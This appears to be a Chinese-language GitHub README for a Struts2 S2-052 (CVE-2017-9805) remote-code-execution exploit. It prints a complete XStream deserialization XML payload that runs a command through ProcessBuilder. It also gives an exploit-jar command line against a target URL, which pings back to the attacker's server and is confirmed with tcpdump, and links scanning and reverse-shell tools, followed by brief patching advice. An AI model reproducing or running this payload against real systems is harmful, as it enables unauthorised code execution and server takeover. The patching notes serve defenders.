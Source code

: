 # CVE-2017-9805 （S2-052）反弹Shell Exploit

## 影响版本
```
Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
```

## Poc

```
Content-Type: application/xml

<map>
<entry>
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>calc</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
</entry>
</map>

Windows <command><string>calc</string></command>

Mac <command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>
```

## 漏洞复现详情

https://secfree.com/article-333.html

## 利用

直接使用工具进行扫描（超级厉害，感叹别人比自己强能写出这样便利的工具，用的时候记得点赞）
https://github.com/HatBoy/Struts2-Scan

或者

```
java -jar CVE-2017-9805-Exploit.jar http://192.168.199.246:8080/struts2-rest-showcase/orders.xhtml "ping -c 2 [你所使用的服务器IP地址]"
tcpdump -i eth0 icmp (抓包icmp数据包)
```
##反弹shell方法
![exploit](https://github.com/iBearcat/S2-052/blob/master/exploit.jpg?raw=true)

执行命令回显请https://github.com/luc10/struts-rce-cve-2017-9805

## 修复方案

1.建议尽快升级到 2.5.13版本。

2.在不使用时删除 Struts REST插件，或仅限于服务器普通页面和JSONs：

```
<constant name=”struts.action.extension” value=”xhtml,,json” />
```

3.限制服务器端扩展类型，删除XML支持。
